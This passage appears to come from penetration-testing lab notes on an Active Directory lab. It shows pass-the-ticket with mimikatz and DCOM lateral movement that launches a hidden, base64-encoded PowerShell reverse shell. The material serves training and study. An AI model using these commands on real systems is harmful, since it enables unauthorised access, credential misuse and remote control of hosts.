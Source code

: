 As many tickets have been generated, we can just pick any TGS ticket in the dave@cifs-web04.kirbi format and inject it through mimikatz via the **kerberos::ptt** command.

```
mimikatz # kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi

* File: '[0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi': OK
```

No errors have been thrown, meaning that we should expect the ticket in our session when running **klist**.

```shell
PS C:\Tools> klist

Current LogonId is 0:0x13bca7

Cached Tickets: (1)

#0>     Client: dave @ CORP.COM
        Server: cifs/web04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40810000 -> forwardable renewable name_canonicalize
        Start Time: 9/14/2022 5:31:32 (local)
        End Time:   9/14/2022 15:31:13 (local)
        Renew Time: 9/21/2022 5:31:13 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

We notice that the _dave_ ticket has been successfully imported in our own session for the _jen_ user. Let's confirm we have been granted access to the restricted shared folder.

```shell
PS C:\Tools> ls \\web04\backup


    Directory: \\web04\backup


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/13/2022   2:52 AM              0 backup_schemata.txt
```

#### DCOM (Spawn a shell from an elevated PS)

From an elevated PowerShell prompt, we can instantiate a remote MMC 2.0 application by specifying the target IP of FILES04 as the second argument of the _GetTypeFromProgID_ method.

```shell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","172.16.228.14"))

$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami